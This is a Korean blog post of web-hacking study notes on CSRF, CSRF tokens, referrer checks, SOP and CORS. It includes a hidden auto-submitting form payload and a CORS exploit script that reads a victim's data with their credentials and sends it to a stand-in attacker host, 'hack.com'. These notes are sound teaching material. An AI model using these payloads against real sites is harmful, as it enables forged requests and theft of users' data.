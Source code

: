 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[WEB HACKING] CSRF란?"
excerpt: "모의해킹 취업반 스터디 7기 12 ~ 13주차"

date: 2025-01-09
last_modified_at: 2025-01-18

tags: [TIL, WEB, SECURITY]
---
```


# CSRF, Cross Site Request Forgery
-> 피해자가 서버로 공격자가 원하는 요청을 하게 만드는 것
웹 애플리케이션 취약점 중 하나로 사용자가 자신의 의지와 무관하게 공격자가 의도한 행동을 하여 특정 웹페이지를 보안에 취약하게 한다거나 수정, 삭제 등의 작업을 하게 만드는 공격방법을 의미한다. 유명 경매 사이트 옥션의 개인정보 유출 사건에 사용된 공격 방식이다.

## 취약점
모든 요청에서 발생 가능

## post method로만 파라미터 전달이 가능할 때 csrf 공격방식
form tag를 삽입해야 한다 -> XSS로부터 무결해야 한다

```html
<iframe style="display:none" name="frame"></iframe>

<form method="POST" action="link" id="test" target="frame">
<input type="hidden" name="email" value="test@example.com"/>
</form>

<script>
document.getElementById('test').submit();
</script>
```

# CSRF 대응방법
## CSRF Token
csrf 공격을 막기 위해 만든 random한 token
마이페이지에 접근할 때 토큰 발행

```html
<form>
<input type="hidden" name="csrfToken" value="random_value">
</form>
```

정보를 수정할 때 csrf 토큰을 함께 받도록 요청한다
csrf 토큰도 탈취해야 하는구나?
사용자의 form 태그가 있는 페이지에 접근할 때 csrf 토큰이 발행된다

## referrer check
확장성이 떨어질 수 있다
개발자가 예외처리를 했을 경우
-> `<meta name='referrer' content='no-referrer'>`

## 요청을 위조할 수 없게 하자
파라미터에 모르는 데이터를 넣게 하자 -> 인증정보
인증정보를 넣는 것!

# SOP / CORS
## SOP, Same-Origin Policy
다른 출처의 자원에 접근하지 못하게 브라우저가 막는 것

같은 출처의 기준
- 도메인
- 스키마
- 포트

## CORS, Cross Origin Resource Sharing
다른 출처에서도 데이터를 쓸 수 있게 함

ACAO Header, Access Controll Allow Origin
-> 응답에 들어감

acao header에 요청이 존재하냐
자원을 허용할 도메인을 등록해두는 것이다

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://target.com/seneitive-data', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = 'http://hack.com/log?key='+this.responseText;
    };
</script>
```

브라우저에 로드는 되는데 자바스크립트로 접근이 되냐 안되냐는 cors에 등록된 것만 가능하다

-> White List로 개발자가 하나하나 추가해줘야 함
하지만 개발자가 귀찮으시잖아~
`ACAO: *` -> SOP가 없는 것과 마찬가지다
다른 도메인에서 쿠키를 포함해서 요청한 것에 대한 응답은 * 못 씀
ACAC Header
Origin에 있는 데이터를 ACAO 헤더에 그대로 옮겨주자

CSRF
GET 방식이면 프리패스
POST -> XSS, form tag
CORS 정책이 잘 적용되어 있지 않다 -> 공격자 서버 만들어서 공격

# CSRF
모든 요청에서 CSRF가 발생가능하다
이 요청은 위조해도 되는가
이 요청은 함부로 위조할 수 있는가

# 참고
* [CSRF 공격과 방어 기법](https://velog.io/@gwanuuoo/CSRF-%EA%B3%B5%EA%B2%A9%EA%B3%BC-%EB%B0%A9%EC%96%B4-%EA%B8%B0%EB%B2%95)
* [Spring Security_CSRF Token의 개념과 사용 방법](https://codevang.tistory.com/282)
